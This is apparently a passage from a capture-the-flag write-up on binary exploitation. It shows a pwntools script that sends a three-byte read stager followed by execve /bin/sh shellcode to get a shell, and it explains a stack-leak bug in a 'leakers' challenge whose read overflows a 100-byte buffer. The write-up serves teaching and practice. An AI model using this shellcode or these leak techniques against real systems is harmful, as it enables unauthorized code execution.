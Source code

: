 :(

Still, we can change `rdx` content with one byte!

```
pop rdx -> 5a
```

Then, after `rdx` has been properly set up, we can use two syscalls: the first, by using only three bytes, will be a read that will read the proper shellcode to which we'll jump right after the first call. Final exploit:

```python
#!/usr/bin/python3
from pwn import *
...
sc1 = b"\x5A\x0F\x05"
# 2nd sc comes from shellstorm:
# http://shell-storm.org/shellcode/files/shellcode-806.php
sc2 = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
...
p.send(sc1 + b"\x90"*3 + sc2)
p.interactive()
```

**Note**: we can send both shellcodes with one call of the `send` function.

### leakers, gonnaleak, aslr

**Note**: I have put all those challenges in one chapter because they are really similar.

`leakers` code:

```c
int main(){
  char echostring[100];
  int l;
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  puts("Leakers gonna leak!\n");
  while(2){
    l = read(0, echostring, 200);
    if(l == 1 && (echostring[0] == '\n' || echostring[0] == '\x00')){
      puts("Bye!");
      break;
    }
    printf("> %s", echostring);
  }
```

**Note**: The source code of the challenge is found in the server directory after obtaining the shell. We are given only the binary. This is true for every challenge.

To leak values from the stack we can exploit the fact that we have a `read` that puts uset input on the stack, but the size check performed is actually bigger than the buffer itself. Since later on the buffer content is displayed via a  `printf`, which stops reading when it encounters a terminator, we have our exploit: the `read` does not put a terminator when it stops (for e.g. the `scanf` does), which means that we can overwrite null bytes that follows the buffer in the stack to leak stack content up to our canary.
